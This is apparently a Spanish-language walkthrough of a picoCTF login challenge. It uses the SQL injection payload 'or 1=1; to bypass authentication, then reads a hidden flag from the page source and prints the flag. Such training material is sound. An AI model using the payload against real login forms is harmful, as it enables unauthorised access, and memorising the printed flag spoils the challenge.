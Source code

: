 ## Descripción 
Can you login to this website?

Additional details will be available after launching your challenge instance.

## Datos de Acceso al Nivel
user: carlosof / kali
password:

## Solución
- Iniciamos el launcher del reto e ingresamos al link.
- En el `username` ingresaremos `admin` como lo indica la pista, el la contraseña ingresaremos una inyección sql: 
	- `'or 1=1;`
- Una vez adentro, nos mostrara la siguiente información.
```bash
username: admin
password: 'or 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password=''or 1=1;'

# Logged in! But can you see the flag, it is in plainsight.
```
- Ahora simplemente presionamos en el teclado `Ctrl+U` y nos redirigirá a la siguiente pagina 
```bash
<pre>username: admin
password: &#039;or 1=1;
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039;or 1=1;&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```
- Flag: 
	- picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}
## Notas Adicionales
Al presionar `Ctrl + U`, el navegador abrirá una nueva pestaña o ventana donde muestra el código HTML de la página web en formato de texto.
## Referencias 
https://play.picoctf.org/practice/challenge/304
